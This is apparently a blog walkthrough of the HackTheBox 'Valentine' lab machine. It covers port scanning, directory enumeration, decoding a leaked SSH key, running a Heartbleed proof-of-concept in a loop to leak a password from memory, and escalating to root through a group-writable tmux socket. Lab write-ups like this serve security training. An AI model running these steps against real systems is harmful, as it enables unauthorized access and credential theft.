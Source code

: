 ```yaml
---
layout: post
title: "HackTheBox: Valentine"
description: "hackthebox valentine walkthrough"
thumb_image: "TODO"
tags: [web, ctf, overthewire]
permalink: /posts/Valentine
---
```


## Enumeration

#### Port scans


Unless there is some form of rate limiting I like to initially scan all ports on CTF type boxes. It's not uncommon to find some service running on a random high number port and if we can recognise that early we can save ourselves time later.

We start off with a SYN scan (-sS), of all ports (-p-), there's no DNS in this environment so let's turn off name resolution (-n), and save output in all formats with the filename "allports" (-oA allports):

```
root@kali: nmap -sS -p- -n -oA allports -e tun0 -vv 10.10.10.79

# Nmap 7.70 scan initiated Wed Jul 18 03:46:04 2018 as: nmap -sS -p- -n -oA allports -e tun0 -vv 10.10.10.79
Nmap scan report for 10.10.10.79
Host is up, received reset ttl 63 (0.28s latency).
Scanned at 2018-07-18 03:46:04 EDT for 338s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Jul 18 03:51:42 2018 -- 1 IP address (1 host up) scanned in 338.06 seconds
```




We have three open ports, let's try and enumerate some version information with nmap. So we look at ports 22,80 and 443 (-p 22,80,443) using service detection (-sV), saving all outputs with the filename "scripts" (-oA scripts) and with name resolution still off (-n):

```
# Nmap 7.70 scan initiated Wed Jul 18 04:01:38 2018 as: nmap -sV -p22,80,443 -n -oA scripts -e tun0 -vv 10.10.10.79
Nmap scan report for 10.10.10.79
Host is up, received echo-reply ttl 63 (0.27s latency).
Scanned at 2018-07-18 04:01:38 EDT for 17s

PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.2.22 ((Ubuntu))
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
*Something fun to note at this point is that we can already make a good guess at what operating system we're looking at. Can you figure it out? Answer at the bottom.*

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 18 04:01:55 2018 -- 1 IP address (1 host up) scanned in 17.36 seconds
```
#### Web

Web servers are always something we want to have a look at. Pointing our browser to 10.10.10.79 we're served a landing page with this image:

![webfront](/img/valentine/webfront.png)

A bleeding heart... maybe this box has something to do with heartbleed, we'll note that for later.

Let's quickly enumerate with gobuster and see if there's anything more we should be looking at on the web ports. We'll use a default kali wordlist called big.txt (-w /usr/share/wordlists/dirb/big.txt), with 50 concurrent threads (-t 50) at the server (-u 10.10.10.79):

```
root@kali: gobuster -w /usr/share/wordlists/dirb/big.txt -u 10.10.10.79 -t 50 -f

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.79/
[+] Threads      : 50
[+] Wordlist     : /usr/share/wordlists/dirb/big.txt
[+] Status codes : 200,204,301,302,307
[+] Add Slash    : true
=====================================================
/decode/ (Status: 200)
/dev/ (Status: 200)
/encode/ (Status: 200)
/index/ (Status: 200)
=====================================================
```

Checking the hits in our browser we see /decode and /encode appear to be some simple application, it looks like they're encoding or decoding input to base64. Navigating to /dev/ we see it's a directory containing notes.txt, and a file called "hype_key":

![hype key](/img/valentine/hype_key.png)

Hype_key looks to be encoded in hexadecimal, all the characters are in the range 0-F. To confirm we can go to the Decoder tab in Burp Suite and enter the data before selecting "ASCII Hex" in the "Decode as" dropdown:

![decoder](/img/valentine/decoder.png)

That's neat, we have an RSA key that requires a password. We also have whitespace every second character in our output that needs to be cleaned up. To get a usable key file we can echo the raw data, pipe it into [tr](https://en.wikipedia.org/wiki/Tr_(Unix)) to remove the whitespace, then pipe into the xxd to convert from hex to ascii and finally redirect the ouput into a file:

```
echo "2d 2d 2d..." | tr -d ' ' | xxd -r -p > hype.key
```

So we have a key and can make a guess at a username (hype seems like a good first try). Our key is password protected. If we find a password maybe we'll be able to use this key to SSH into the box... let's keep poking around.

#### SSL

Earlier we saw a hint that the server might be vulnerable to heartbleed. We can use sslscan to get a whole load of information about the SSL server on port 443:

![sslscan](/img/valentine/sslscan.png)

Looks like this server is vulnerable.

## Exploitation
#### Heartbleed


Googling for "heartbleed poc" we come across https://github.com/sensepost/heartbleed-poc. Running this proof of concept we see it's dumping memory, but we don't see anything in that memory that is useful for us:

![heartbleed](/img/valentine/uselessheartbleed.png)

At this point if we [RTFM](https://en.wikipedia.org/wiki/RTFM) we'd notice a -n option in the PoC to take multiple heartbeats, hopefully returning multiple slices of memory. An uglier way of achieving this is to run the script multiple times in a bash loop and have each output appended to a file:

```
for i in {1..10}; do python heartbleed-poc.py 10.10.10.79 >> heartbleed.output; done
```

Looking at that output we see an interesting string that looks like a parameter being passed to the server.


![interesting heartbleed](/img/valentine/interestingheartbeat.png)

```
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```

When we see a string ending in two equals signs it's often diagnostic of having been base64 encoded (which is further hinted at by the base64 encoder/decoder pages on the website). We can check that from the command line:

![there's our password](/img/valentine/b64.png)

Looks like we have a password to try!

#### SSH

After changing the permissions of our key we can successfully login via SSH and cat the user flag (I'll leave this step to the reader).

![SSH in](/img/valentine/ssh.png)

## Privelege Escalation
Having SSH access allows us to upload enumeration scripts using SCP. One such script is  [LinEnum.sh](https://github.com/rebootuser/LinEnum). We SCP it to the server's /tmp directory:

```
scp -i hype.key LinEnum.sh 10.10.10.79:/tmp/
```

after chmodding the file to be executable and running it on the server we get a heap of information about the system. At the end of the output we see there's a .bash_history file with some interesting content:

![LinEnum output](/img/valentine/linenum.png)

Looks like someone has created a tmux socket at /.devs/dev_sess. Let's check out the permissions for that socket:

![devss](/img/valentine/devss.png)

So it's owned by the root user, but the hype group has read/write access. We can connect to the socket with
```
tmux -S /.devs/dev_sess
```
Let's connect and see what user we are:

![root shell](/img/valentine/rootshell.png)

And we're root! Job done. From here we can cat the root flag and call it a day.




## Notes
We can have a good guess at what family of operating system is being used after the very first nmap scan. The TTL of a SYN-ACK packet is different between systems. In our case we had a ttl of 63, \*NIX systems set a TTL of 64, and the packet has crossed one network segment, so we can already make a good guess that we're looking at a \*NIX machine. For other TTL values see:  http://www.kellyodonnell.com/content/determining-os-type-ping

